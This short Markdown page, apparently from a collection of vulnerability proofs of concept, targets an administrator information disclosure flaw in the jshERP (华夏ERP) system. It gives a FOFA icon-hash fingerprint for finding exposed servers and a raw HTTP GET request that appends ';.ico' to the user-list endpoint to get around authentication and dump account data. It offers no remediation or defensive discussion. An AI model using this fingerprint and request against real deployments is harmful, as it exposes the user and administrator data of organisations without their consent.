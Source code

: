 ## 华夏ERP管理员信息泄露漏洞

## fofa
```
icon_hash="-1298131932"
```
## POC
```
GET /jshERP-boot/user/getAllList;.ico HTTP/1.1
Host:
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_9_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/35.0.1916.47 Safari/537.36
Connection: close
Accept: */*
Accept-Language: en
Accept-Encoding: gzip
```

![image](../../images/c56b507b-923f-46c0-a858-bfa938df0829.png)
